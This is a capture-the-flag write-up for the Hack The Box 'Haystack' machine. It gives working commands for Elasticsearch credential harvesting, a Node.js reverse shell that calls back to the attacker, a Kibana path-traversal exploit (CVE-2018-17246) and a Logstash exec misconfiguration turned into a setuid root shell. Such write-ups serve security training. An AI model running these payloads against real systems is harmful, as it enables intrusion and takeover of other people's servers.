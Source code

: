 # Target
| Category          | Details                                                  |
|-------------------|----------------------------------------------------------|
| 📝 **Name**       | [Haystack](https://app.hackthebox.com/machines/Haystack) |  
| 🏷 **Type**       | HTB Machine                                              |
| 🖥️ **OS**        | Linux                                                    |
| 🎯 **Difficulty** | Easy                                                     |

# Attack path
1. [Enumerate unsecured Elasticsearch instance](#enumerate-unsecured-elasticsearch-instance)
2. [Escalate to `kibana` user using arbitrary file inclusion in Kibana 6.4.2 (CVE-2018-17246)](#escalate-to-kibana-user-using-arbitrary-file-inclusion-in-kibana-642-cve-2018-17246)
3. [Escalate to `root` user using Logstash misconfiguration](#escalate-to-root-user-using-logstash-misconfiguration)

### Enumerate unsecured Elasticsearch instance

#### List available indices
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ curl http://$TARGET:9200/_cat/indices?v
health status index   uuid                   pri rep docs.count docs.deleted store.size pri.store.size
green  open   .kibana 6tjAYZrgQ5CwwR0g6VOoRg   1   0          1            0        4kb            4kb
yellow open   quotes  ZG2D1IqkQNiNZmi2HRImnQ   5   1        253            0    262.7kb        262.7kb
yellow open   bank    eSVpNfCfREyYoVigNWcrMw   5   1       1000            0    483.2kb        483.2kb
```

#### Search for credentials in `quote` index
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ curl -s "http://$TARGET:9200/quotes/_search?size=253&pretty" | \
jq -r ".hits.hits[]._source.quote" | \
tr -s '[:space:]' '\n' | \
sort -u | less
```

#### Decode base64 encoded credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ echo "dXNlcjogc2VjdXJpdHkg" | base64 -d && \
echo && \
echo "cGFzczogc3BhbmlzaC5pcy5rZXk=" | base64 -d
user: security 
pass: spanish.is.key
```

### Escalate to `kibana` user using arbitrary file inclusion in Kibana 6.4.2 ([CVE-2018-17246](https://nvd.nist.gov/vuln/detail/cve-2018-17246))

#### Upload reverse shell over SSH using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ LHOST=$(ip addr show tun0 | grep "inet " | awk '{print $2}' | cut -d'/' -f1) && \
LPORT=4444 && \
(cat <<EOF> shell.js
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect($LPORT, "$LHOST", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
EOF
) &&
scp shell.js security@$TARGET:/tmp/shell.js
```

#### Listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ nc -lnvp 4444      
listening on [any] 4444 ...
```

#### Setup SSH tunnel to local Kibana port using discovered credentials
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ ssh -L 5601:localhost:5601 -Nf security@$TARGET
security@10.129.227.120's password:
```

#### Execute uploaded reverse shell code (exploit arbitrary file inclusion)
```
┌──(magicrc㉿perun)-[~/attack/HTB Haystack]
└─$ curl "http://127.0.0.1:5601/api/console/api_server?sense_version=@@SENSE_VERSION&apis=../../../../../../../tmp/shell"
```

#### Confirm escalation
```
connect to [10.10.14.161] from (UNKNOWN) [10.129.227.120] 36542
id
uid=994(kibana) gid=992(kibana) grupos=992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
```

### Escalate to `root` user using Logstash misconfiguration
#### Identify misconfiguration
```
cat /etc/logstash/conf.d/*
filter {
        if [type] == "execute" {
                grok {
                        match => { "message" => "Ejecutar\s*comando\s*:\s+%{GREEDYDATA:comando}" }
                }
        }
}
input {
        file {
                path => "/opt/kibana/logstash_*"
                start_position => "beginning"
                sincedb_path => "/dev/null"
                stat_interval => "10 second"
                type => "execute"
                mode => "read"
        }
}
output {
        if [type] == "execute" {
                stdout { codec => json }
                exec {
                        command => "%{comando} &"
                }
        }
}
```

#### Exploit misconfiguration
```
echo "Ejecutar comando: cp /bin/bash /tmp/root_shell; chmod +s /tmp/root_shell" > /opt/kibana/logstash_1 && \
while [ ! -f /tmp/root_shell ]; do sleep 1; done && /tmp/root_shell -p
id
uid=994(kibana) gid=992(kibana) euid=0(root) egid=0(root) grupos=0(root),992(kibana) contexto=system_u:system_r:unconfined_service_t:s0
```